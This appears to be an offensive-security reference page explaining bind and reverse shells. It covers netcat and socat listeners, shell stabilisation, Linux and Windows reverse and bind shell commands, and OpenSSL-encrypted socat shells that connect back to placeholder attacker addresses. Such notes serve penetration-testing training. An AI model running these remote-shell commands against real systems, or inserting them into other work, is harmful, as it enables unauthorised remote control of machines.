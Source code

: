 # Bind and reverse shells

## Attack tree

```text
1 Reverse shell
    1.1 Start a listener on attack machine
    1.2 Start a reverse shell on target machine
2 Bind shell
    2.1 Start a listener on target machine
    2.2 Connect to listener on target from attack machine
```

## Examples

### Netcat shells

Starting a `netcat` listener on Linux for receiving from a reverse shell of the target:

    # nc -lvnp <port-number>

To obtain a bind shell on a target where there is already a listener waiting on a chosen port of the target:

    # nc <target-ip> <chosen-port>

Stabilise a `netcat` shell on Linux systems:

* Spawn a better featured bash shell
* Export to have access to term commands such as `clear`
* Background the shell with `Ctrl+Z`. Back in our own terminal, use `stty raw -echo; fg` to turn off terminal echo 
(which gives access to tab autocompletes, the arrow keys, and `Ctrl+C` to kill processes) and foreground the shell 
again. 

```text
adversary@kali:~# nc -lvnp <port-number>
listening on [any] <port-number>
connect to [...] from (UNKNOWN) [...]

python -c 'import pty;pty.spawn("/bin/bash")'
shell@linux:~$ export TERM=xterm
shell@linux:~$ ^Z
[1]+ Stopped        nc -lvnp <port-number>
adversary@kali:~# stty raw -echo; fg
nc -lvnp <port-number>

shell@linux:~$ whoami
shell
```
If the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). 
To fix this, type `reset` and press enter.

For Windows shells, `rlwrap` can give access to history, tab autocompletion and the arrow keys immediately when 
receiving a shell, but some manual stabilisation must still be used to be able to use `Ctrl+C` inside the shell. 
`rlwrap` is not installed by default on Kali, so first install it with `sudo apt install rlwrap`.

Then use:

    adversary@kali:~# rlwrap nc -lvnp <port-number>

The third way to stabilise a shell is to use a netcat shell as a stepping stone into a more fully-featured `socat` 
shell. 

### Socat shells

#### Reverse

A basic reverse shell listener in `socat`:

    adversary@kali:~# socat TCP-L:<port-number> -

To connect back to the listener on a Linux target system:

    socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"

To connect back to the listener on a Windows target system:

    socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes

#### Bind

Set up a listener on a Linux target:

    socat TCP-L:<PORT> EXEC:"bash -li"

Set up a listener on a Windows target:

    socat TCP-L:<PORT> EXEC:powershell.exe,pipes

The `pipes` argument interfaces between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target machine, connect to the waiting listener with:

    socat TCP:<TARGET-IP>:<TARGET-PORT> -

For a fully stable Linux tty reverse shell, use the `tty` technique.

### Socat encrypted shells

Setting up an OPENSSL-LISTENER using the `tty` technique and a PEM file called `encrypt.pem`:

```text
adversary@kali:~# openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
adversary@kali:~# cat shell.key shell.crt > encrypt.pem
adversary@kali:~# socat OPENSSL-LISTEN:<port-number>,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
```

Connecting back to this listener from the target machine:

```text
socat OPENSSL:<IP address attack machine>:<port-number>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

* `pty` allocates a pseudoterminal on the target -- part of the stabilisation process
* `stderr` makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
* `sigint` passes any `Ctrl+C` commands through into the sub-process, allowing for `kill` commands inside the shell
* `setsid` creates the process in a new session
* `sane` stabilises the terminal, attempting to "normalise" it.

## Notes

Shells are used for interfacing with a Command Line environment (CLI) like the common `bash` or `sh` programs in 
Linux, and the `cmd.exe` and `Powershell` on Windows. When targeting remote systems it is sometimes possible to force 
an application running on the server (such as a webserver, for example) to execute arbitrary code. When this happens, 
we want to use this initial access to obtain a shell running on the target.

* Reverse shells are when the target is forced to execute code that connects back to the attack computer. 
This requires setting up a listener which would be used to receive the connection on the attack machine. Reverse 
shells are a good way to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target.
* Bind shells are when the code executed on the target is used to start a listener attached to a shell directly on 
the target. This would then be open up a port to receive on that you can connect to, and obtain remote code execution. 
This has the advantage of not requiring any configuration on the attack network, but may be prevented by firewalls 
protecting the target.

## Tools

* [Netcat](https://www.kali.org/tools/netcat/)
* [Socat](https://www.kali.org/tools/socat/)
* [Socat binaries](https://github.com/3ndG4me/socat/releases)
* [Metasploit -- multi/handler](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/handler)
